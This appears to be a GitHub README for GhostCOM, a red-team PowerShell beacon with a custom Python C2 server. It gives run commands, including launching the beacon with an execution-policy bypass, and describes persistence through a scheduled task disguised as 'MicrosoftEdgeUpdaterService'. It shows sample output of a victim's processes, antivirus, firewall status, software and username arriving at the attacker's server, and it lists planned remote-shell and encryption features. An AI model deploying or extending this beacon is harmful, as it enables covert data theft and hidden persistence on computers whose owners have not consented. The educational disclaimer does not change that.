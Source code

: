 # GhostCOM

> A COM-based PowerShell beacon for red team persistence using Task Scheduler.

## Overview
GhostCOM is a custom red team beacon built with PowerShell and Python that demonstrates persistence via the COM-based `Schedule.Service` interface. The beacon collects system information and sends it to a custom C2 server.

## Features
- COM-based persistence using Task Scheduler (`Schedule.Service`)
- Beacon sends victim system info to C2
- Two versions:
  - **Basic**: OS version, username, PC name, IP
  - **Advanced**: Active processes, firewall status, and more
- Custom C2 built in Python

## How It Works
1. PowerShell script runs on target machine.
2. Collects system information (based on version).
3. Sends info to attacker's C2 server.
4. Sets up persistence using `Schedule.Service` to auto-run on boot.

## C2 Server
The C2 is a custom Python-based HTTP listener that receives incoming system information from beacons.

> Currently, only hardcoded data is sent. Shell functionality is **not** implemented (yet).
---

## How to Execute

### Prerequisites
- Windows machine (target system)
- PowerShell (v5+ recommended)
- Python-based C2 server running (e.g., python c2_server.py on attacker's machine)
- Adjust the IP (`http://192.168.1.193/`) in the script to point to your actual C2 listener

---

### ⚡ Execution Steps

1. **Start C2 Server on Attacker:**

  ```bash
  ┌──(synix㉿0day)-[~/Desktop]
  └─$ python3 C2.py 
  [+] C2 Server Running on Port 80...
  ``` 

2. **Execute script on Target:**

  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File .\beacon.ps1
  ```

3. **What Happens:**

   One-time system info is sent to your C2 server.

   A scheduled task (MicrosoftEdgeUpdaterService) is created to re-run a silent beacon on every logon.

4. **C2 retrives the data:**
 
  ```shell
  ──(synix㉿0day)-[~/Desktop]
  └─$ python3 C2.py
   [+] C2 Server Running on Port 80...

   [+] Beacon Data Received:
   Processes: Name                         CPU
   ----                         ---
   SearchApp               2.359375
   explorer                1.953125
   powershell               1.21875
   RuntimeBroker           0.828125
   StartMenuExperienceHost 0.609375
   Time: 22-05-2025 18:21:26
   Av: Windows Defender
   Hostname: BLACKSITE-10
   Os: Microsoft Windows 10 Pro
   Uptime: 22-05-2025 18:20:58
   Software: Oracle VirtualBox Guest Additions 7.1.6, Microsoft Visual C   2022 X64 Minimum Runtime - 14.44.34918, 
   Application Verifier x64 External Package, vs_minshellinteropx64msi, Application Verifier x64 External Package (DesktopEditions), 
   Microsoft Visual C   2022 X64 Debug Runtime - 14.44.34918, vs_devenx64vmsi...
   Firewall: Name    Enabled
   ----    -------
   Domain     True
   Private    True
   Public     True
   User: RTO
   192.168.1.11 - - [22/May/2025 18:21:24] "POST /collect HTTP/1.1" 200 -
   ```


> [!CAUTION]
> This tool is provided for educational and research purposes only. Use only in controlled environments with proper authorization. The author is not responsible for any misuse.


## Future Plans
- Add shell functionality to beacon
- Encrypt beacon-C2 communication
- More functionality to beacon
